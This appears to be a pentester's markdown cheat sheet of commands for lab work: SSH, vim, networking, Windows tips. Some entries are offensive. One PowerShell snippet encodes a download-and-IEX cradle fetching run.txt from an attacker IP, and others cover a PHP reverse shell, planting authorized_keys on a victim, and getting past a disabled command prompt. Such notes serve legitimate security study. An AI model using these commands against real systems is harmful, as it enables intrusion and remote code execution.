 # Useful Commands

<details>

<summary>Enable Shared Folder on Kali VM</summary>

```bash
sudo vmhgfs-fuse .host:/ /mnt/hgfs/ -o allow_other -o uid=1000
```

</details>

<details>

<summary>SSH Legacy Connect</summary>

```bash
ssh -o KexAlgorithms=diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-dss -p 22000 j0hn@10.11.1.252
```

</details>

<details>

<summary>Running cmd.exe as admin user</summary>

```bash
powershell.exe Start-Process cmd.exe -Verb runAs
```

OR

* Win-R --> `cmd.exe` --> Ctrl-Shift-Enter

</details>

<details>

<summary>SSH </summary>

### SSH with specified private key

```bash
chmod 400 /home/kali/.ssh/id_rsa
ssh barry@10.11.67.208 -i /home/kali/.ssh/id_rsa
```

### Don't save SSH hostkey into known hosts

```bash
ssh student@192.168.131.52 -p 2222 -o "UserKnownHostsFile=/dev/null"
```

### Starts SSH server

```bash
systemctl start ssh
```

### To troubleshoot SSH configurations

```bash
/usr/sbin/sshd -T
```

### To show SSH config

```bash
vim /etc/ssh/sshd_config
```

</details>

<details>

<summary>Linux Netw Config</summary>

```bash
ifconfig eth1 192.168.200.10 netmask 255.255.255.0
ip route add 192.168.200.0/24 dev eth1
route add default gw 192.168.100.104 eth1
```

</details>

<details>

<summary>Search for exploits</summary>

```bash
searchsploit "Sync Breeze Enterprise 10.0.28"
```

```bash
searchsploit -m 42341
```

</details>

<details>

<summary>Vim</summary>

### Replace all occurrences from first line to last line.

```bash
:0,$s/search_term/replace_term/g
```

It has the syntax `:start_line_number,end_line_number s/<search_term>/<replace_term>/g`

### Match everything until colon (useful for cleaning hashes)

```regex
^[^:]*:
```

### Fix Indentation Error (python script)

```bash
gg=G
```

</details>

<details>

<summary>cURL POST Request</summary>

```bash
curl -X POST --data "code=2+2" http://192.168.120.36:50000/verify
```

</details>

<details>

<summary>Install Perl Packages</summary>

```bash
cpan install Package::Name
```

</details>

<details>

<summary>Copy File Contents To Clipboard</summary>

```bash
xclip -selection c /usr/share/webshells/php/php-reverse-shell.php
```

</details>

<details>

<summary>Terminator Shortcuts</summary>

* Ctrl-Shift-E: Split the view vertically.

- Ctrl-Shift-O: Split the view horizontally.

* Ctrl-Shift-P: Focus on the previous view.

- Ctrl-Shift-N: Focus on the next view.

* Ctrl-D: Close the view where the focus is on.

- Ctrl-Shift-Q: Exit terminator.

</details>

<details>

<summary>Command Prompt Disabled By Administrator</summary>

* Upload [http://didierstevens.com/files/software/cmd-dll\_v0\_0\_4.zip](http://didierstevens.com/files/software/cmd-dll_v0_0_4.zip)
* Run `cmd.exe` locally

</details>

<details>

<summary>Modifying Windows PATH</summary>

```bash
set PATH=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;%PATH%
```

</details>

<details>

<summary>Remove Windows Directory Recursively</summary>

```bash
rmdir /s /q c:\temp
```

</details>

<details>

<summary>CMD Windows Recursive Directory Listing</summary>

```bash
dir /s /b
```

</details>

<details>

<summary>Error Connecting via xfreerdp</summary>

```bash
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:rdp
# OR, if having a different connect error, also try:
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:tls
# and if you want to have files and clipboard there:
xfreerdp +clipboard /u:user /p:'password' /v:X.X.X.X /d:domain /sec:<whatever> /drive:<absolute path to your local folder>,/
```

</details>

<details>

<summary>Saving Terminal Commands</summary>

```bash
script <filename>
exit
```

</details>

<details>

<summary>Snipping Tool (Ctrl-Win-S) Pic Location</summary>

```bash
C:\Users\%USERNAME%\AppData\Local\Packages\Microsoft.ScreenSketch_8wekyb3d8bbwe\TempState
```

</details>

<details>

<summary>Fixing gcc: error trying to exec ‘cc1’: execvp: No such file or directory</summary>

```bash
carlos@malbec:/home/carlos$ gcc root.c -o libmalbec.so -shared -fPIC -w
gcc: error trying to exec ‘cc1’: execvp: No such file or directory

# PATH variable has not been exported. 
# To fix this, we'll export this variable.
carlos@malbec:/home/carlos$ export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
declare -x TERM="xterm"

carlos@malbec:/home/carlos$ export PATH

carlos@malbec:/home/carlos$ export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PATH="/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:."
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
declare -x TERM="xterm"
```

</details>

<details>

<summary>Can't recognize 'whoami' as an internal or external command, or batch script.</summary>

```bash
Z:\home\carlos>whoami
Can't recognize 'whoami' as an internal or external command, or batch script.
# --> use linux x86 payload instead!!!
```

</details>

<details>

<summary>Sudo (ALL) NOPASSWD: ALL to root account</summary>

```bash
sudo bash -i
```

</details>

<details>

<summary>List al the available MSFVenom payloads</summary>

```bash
msfvenom --help-formats
```

</details>

<details>

<summary>scp: Received message too long ||   scp: Ensure the remote shell produces no output for non-interactive sessions.</summary>

Means victim is running legacy SCP server --> req us to use legacy SCP protocol

* `-O` switch

```bash
scp -O -i id_rsa authorized_keys max@192.168.199.100:/home/max/.ssh/authorized_keys
```

</details>

<details>

<summary>B64 Encoding Using Powershell</summary>

```powershell
$text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
```

</details>

<details>

<summary>Print Specified lines</summary>

```bash
# Single line 43
sed -n 43p shellcoderunner.ps1 

# Lines 45-52
sed -n 45,52p shellcode_runner_template.cs
```

</details>

<details>

<summary>Running CMD as Admin CMD</summary>

```powershell
powershell -Command "Start-Process cmd -Verb RunAs"
```

</details>
